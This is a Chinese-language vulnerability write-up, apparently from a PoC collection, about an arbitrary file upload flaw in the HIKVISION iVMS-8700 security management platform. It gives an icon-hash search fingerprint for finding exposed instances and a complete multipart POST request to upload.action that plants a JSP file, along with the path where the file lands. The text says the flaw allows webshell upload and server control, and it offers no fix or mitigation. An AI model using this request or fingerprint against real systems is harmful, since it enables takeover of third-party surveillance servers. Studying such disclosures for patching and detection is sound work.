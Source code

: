# 

# HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704111156427](./images/image-20230704111156427.png)

发送请求包上传文件

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![image-20230704111213114](./images/image-20230704111213114.png)

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![image-20230704111225074](./images/image-20230704111225074.png)
